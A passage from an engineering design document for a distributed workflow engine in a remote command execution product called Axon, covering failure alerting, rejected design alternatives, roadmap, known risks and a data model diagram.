- Full error payloads (cap at 10KB, redact secrets).
- Agent credentials or tokens.

---

### 8.3 Failure Modes and Alerting

| Failure Mode | Signal | Alert |
|---|---|---|
| Step timeout | `workflow_step_duration_seconds` exceeds threshold | Page SRE if >5% of runs timeout |
| Retry exhaustion | `workflow_step_retries_total` spike | Alert if >20% of steps exhausted retries |
| Agent offline | Dispatch returns `AGENT_NOT_CONNECTED` | Alert on any; escalate if >10 min |
| DAG cycle (user error) | Validation fails at run creation | User sees error in API response; no alert |
| Engine worker crash | Lock timeout + auto-retry | No alert (self-healing); log at info level |
| Database connection pool exhaustion | Queries timeout | Page SRE; circuit-break new runs |
| Redis queue backlog | Queue length > threshold | Alert if >1000 queued items |
| Condition expression eval error | Try/catch in condition evaluator | Log at warn level; mark step as SKIPPED |

---

## 9. Rejected Alternatives

### 9.1 Exactly-Once Delivery

**Considered:** Build exactly-once execution via consensus (Raft) or Saga pattern.

**Rejected:** Added latency and complexity without clear benefit.
- At-least-once + idempotence is simpler, proven, and sufficient for most workflows.
- Exactly-once would require per-step commitment consensus, turning a step timeout into a multi-round consensus (100s of ms → 1000s of ms).
- Idempotence is cheaper: agent caches based on fencing token, no new coordination.

### 9.2 Workflows as Microservices / External Orchestrator

**Considered:** Use Temporal, Prefect, or Airflow as the workflow engine, with Axon as the execution substrate.

**Rejected:** Adds operational complexity, external dependency, and licensing cost.
- We need workflow orchestration to stay within Axon's security boundary (org isolation, audit).
- External services introduce a third party into the data-passing chain (exfiltration risk).
- Building our own (simpler) engine keeps us in control of the security model.

### 9.3 Synchronous REST for Step Results

**Considered:** Dispatch a step, wait synchronously in the HTTP request, return result.

**Rejected:** Ties up connection, blocks worker, timeout risk.
- HTTP request timeout is typically 30s; step execution may take longer.
- Blocking N worker processes on N-way fan-out kills throughput.
- Async + callback (existing pattern in Axon) is the right model.

### 9.4 In-Memory Workflow State

**Considered:** Keep WorkflowRun state in memory during execution (Redis or local process memory).

**Rejected:** Loss on restart; no audit trail.
- Database is the source of truth; Redis queue is transient.
- In-memory state plus database creates consistency headaches.
- Audit requires durable writes; can't defer to memory.

### 9.5 Sub-workflows in v1

**Considered:** Allow workflows to invoke other workflows (nesting).

**Rejected:** Adds versioning complexity and error handling surface.
- Do we version sub-workflow runs independently? How do we track the parent?
- Error in a sub-workflow: does it roll back the parent?
- Deferring this to v2 lets us learn from single-level workflows first.
- Can simulate nesting with agent-level composition in v1 (run a multi-step script in a single agent).

### 9.6 Scheduled/Event Triggers in v1

**Considered:** Support cron-scheduled workflow runs or event-triggered runs.

**Rejected:** Adds trigger ingestion, event parsing, and scheduling infrastructure.
- v1 is manual trigger (API/UI) + webhook (HTTP callback from external system).
- Scheduled triggers (cron-like) can be built atop the Job scheduler (create a Job that POSTs to the workflow run endpoint).
- Event triggers require Event Grid or Kafka integration (out of scope v1).

### 9.7 Compensation Logic / Rollback

**Considered:** Add inverse-step support; on failure, run compensating steps to undo changes.

**Rejected:** Complex semantics, hard to test, not clear we need it.
- Compensation requires inverse logic for every step (delete what was created, etc.).
- Compensation itself can fail; do we retry compensation? How deep?
- ~~Most workflows are read-only (fetch data, transform, store). Mutations are rare.~~
  **This premise is wrong for Axon and should not be used to justify the decision.** Axon exists to
  run shell commands on remote machines — restart a service, apply a migration, rotate a
  certificate, patch a host. The product's own positioning example is *"Restart API Service."*
  These are overwhelmingly **mutations**, and a multi-step workflow that fails at step 4 of 6 can
  leave a fleet in a partially-reconfigured state. Deferring compensation because mutations are
  "rare" inverts reality.
- **The decision to defer still holds, on honest grounds:** compensation semantics are genuinely
  hard (compensating actions can themselves fail, and unbounded compensation-of-compensation is
  worse than none), and shipping a half-correct rollback is more dangerous than shipping none,
  because operators would trust it.
- **What v1 owes users instead of rollback:** the run must make partial failure *legible*. A
  failed run shows exactly which steps completed on which agents, so an operator can reason about
  the actual state of the fleet. `Step.idempotent` is surfaced in the builder. Document plainly
  that Axon does not roll back — an operator who believes it does will write riskier workflows
  than one who knows it does not.

### 9.8 User-Defined Functions / Scripting

**Considered:** Allow workflows to define functions or scripts in the workflow definition.

**Rejected:** Moves toward a DSL; prefer declarative DAG.
- Scripting is a slippery slope: soon we are building a programming language.
- Agents are where scripting lives; if a step needs complex logic, it runs a script on an agent.
- Keep workflows declarative: define steps and edges, not functions.

### 9.9 Persistent Workflow State Across Runs

**Considered:** Allow workflows to save state between runs (e.g., cursor for pagination).

**Rejected:** Adds statefulness; complicates testing and recovery.
- Each run is independent.
- If a workflow needs to track state across runs, model that as a step output written to an external database (by the agent).
- Workflows are stateless; state lives in agents and external systems.

---

## 10. Implementation Roadmap

### 10.1 Sequencing (dependencies)

1. **Data models** (MongoDB schemas + indexes).
2. **Distributed execution engine** (queue-based, lock-based).
3. **REST API** (workflow CRUD, run lifecycle).
4. **Socket.IO events** (live status updates).
5. **DAG builder UI** (React Flow canvas).
6. **Run monitor UI** (timeline, step details).
7. **Conditional branching** (expression eval + path selection).
8. **Integration tests** (end-to-end workflow runs).
9. **Feature flag & rollout** (canary to all orgs).

### 10.2 Definition of Done per Phase

**Phase 0 v1 MVP:**
- [ ] All data models in Mongoose (with org-scoped indexes).
- [ ] Execution engine queues and dequeues steps.
- [ ] Basic retry loop with backoff.
- [ ] REST endpoints for workflow CRUD and run lifecycle.
- [ ] DAG builder allows add/remove steps (no advanced UI).
- [ ] Integration tests: single-step run, multi-step with prereqs, retry.
- [ ] Security audit: multi-tenancy, agent allowlist, output capping.
- [ ] Feature flag off by default; staging tests pass with flag on.

**Phase 1 v1.1:**
- [ ] Conditional edge support (if/else).
- [ ] Fan-in (join) semantics for multi-predecessor steps.
- [ ] Condition expression validation at workflow creation.
- [ ] Socket.IO integration; live run updates.
- [ ] Run monitor UI with timeline and step details.
- [ ] Integration tests: conditional routing, fan-out/fan-in.
- [ ] Performance: 100-step DAG renders in <1s, updates <100ms.

---

## 11. Risks and Open Questions

### 11.1 Known Risks

1. **Condition expression evaluation:** User-defined expressions are a code-injection vector. Mitigated in v1 by restricting to simple property comparisons, but full sandboxing deferred to v2.
2. **Cross-agent data passing:** A workflow can exfiltrate data across network boundaries. Mitigated by agent allowlist and audit trail, but DLP policies are deferred to v2.
3. **DAG cycle:** If a user creates a cycle, the engine will loop forever. Mitigated by cycle-detection at workflow creation, but this must be tested.
4. **Agent capacity:** If 1000 steps try to run on agent A, they all queue on agent A. Mitigated by resource quotas (per-org, per-agent) which are deferred to v2.

### 11.2 Open Questions (defer to design review)

1. **Input mapping syntax:** How do users reference prior step outputs? `$.stepName.field`? `#[stepName].field`? Recommend a template syntax (e.g., Liquid or Nunjucks) but confirm with product.

2. **Error handling in conditions:** If a condition eval fails (malformed expression), should the step be skipped or should the run fail? Recommend: fail closed (run fails), but flag for v2: more granular error policies per condition.

3. **Agent affinity:** If a step must run on a specific agent (not interchangeable), how is that specified? Currently `step.agentId` is a single value. For v1, assume agents are stateless; for v2, add affinity labels.

4. **Output size limits:** Currently capping at 1MB per step output. Is this too small for large datasets? Recommend: 1MB for v1, revisit if users hit the limit. Alternative: store outputs externally (S3) and reference them by URL, but adds complexity.

---

## Appendix: Data Model Diagram

```mermaid
erDiagram
    WORKFLOW ||--o{ WORKFLOW_VERSION : has
    WORKFLOW_VERSION ||--o{ WORKFLOW_RUN : instantiates
    WORKFLOW_RUN ||--o{ STEP_RUN : contains
    
    WORKFLOW {
        ObjectId _id
        ObjectId orgId
        string name
        string description
        array steps
        array edges
        date createdAt
        date archivedAt
    }
    
    WORKFLOW_VERSION {
        ObjectId _id
        ObjectId workflowId
        ObjectId orgId
        int versionNumber
        array steps
        array edges
        date createdAt
        boolean isPublished
    }
    
    WORKFLOW_RUN {
        ObjectId _id
        ObjectId workflowId
        ObjectId workflowVersionId
        ObjectId orgId
        string status
        date createdAt
        date startedAt
        date completedAt
        object input
        array stepRuns
        object queue
        object outputs
    }
    
    STEP_RUN {
        ObjectId _id
        ObjectId workflowRunId
        string stepId
        ObjectId orgId
        string status
        int attempt
        date createdAt
        date startedAt
        date completedAt
        ObjectId agentId
        number fencingToken
        object input
        object output
        object error
    }
```



---

## Appendix: Execution Flow Diagram



---

## Appendix: Acknowledgments

This design is informed by:
- Axon's existing fencing-token and HMAC-signing infrastructure.
- Temporal's state machine and retry semantics (simplified here).
- AWS Step Functions' DAG model and branching.
- Kubernetes Jobs' at-least-once delivery guarantee.
